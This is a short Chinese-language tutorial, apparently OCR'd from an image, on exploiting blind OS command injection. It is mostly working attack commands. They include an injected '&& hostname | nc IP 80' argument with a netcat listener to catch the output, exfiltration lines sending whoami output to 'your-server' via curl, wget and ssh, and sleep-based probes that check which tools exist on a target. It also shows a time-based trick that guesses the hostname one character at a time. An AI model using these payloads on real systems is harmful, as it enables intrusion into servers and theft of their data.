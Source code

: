 命令盲注输出将不会返回给用户，所以我们需要通过其它方法来提取输出。最直接的方法是将输出offload到你的服务器。我们只需在服务器上执行**nc -l -n -vv -p 80 -k**这条命令，并配置防火墙允许80端口入站连接。 



```
$ ruby server-online.rb '8.8.8.8 && hostname | nc IP 80' 

yes 
```



```
$ nc -l -n -vv -p 80 -k

 Listening on [0.0.0.0] (family 0, port 81)

 Connection from [1.2.3.4] port 80 [tcp/*] accepted (family 2, sport 64225) 

hacker.local 
```



```
站点工具存在判断验证小方法

curl -h && sleep 5 

wget -h && sleep 5 

ssh -V && sleep 5 

telnet && sleep 5 
```



#### 回显采用数据反弹发送

whoami | curl http://your-server -d @- 

wget http://your-server/$(whoami)

 export C=whoami | ssh user@your-server （在你的服务器上设置用户帐户以进行身份验证无需密码，并记录每个正在执行的命令） 



#### 主机名  命令注入盲猜



**sleep $(hostname | cut -c 1 | tr a 5)** 

1. 我们执行的命令为hostname。我们假设它返回hacker.local。
2. 它需要输出并将其传递给cut -c 1。这将选取hacker.local的第一个字符h。
3. 接着通过tr命令将字符a替换为5。
4. 然后将tr命令的输出传递给sleep命令，sleep h被执行将会立即出现报错，这是因为sleep后跟的参数智能为一个数字。然后，目标使用tr命令迭代字符。执行sleep $(hostname | cut -c 1 | tr h 5)命令，将需要5秒钟的时间。这样我们就可以确定第一个字符是一个h。以此类推，我们就能将完整的主机名猜解出来。

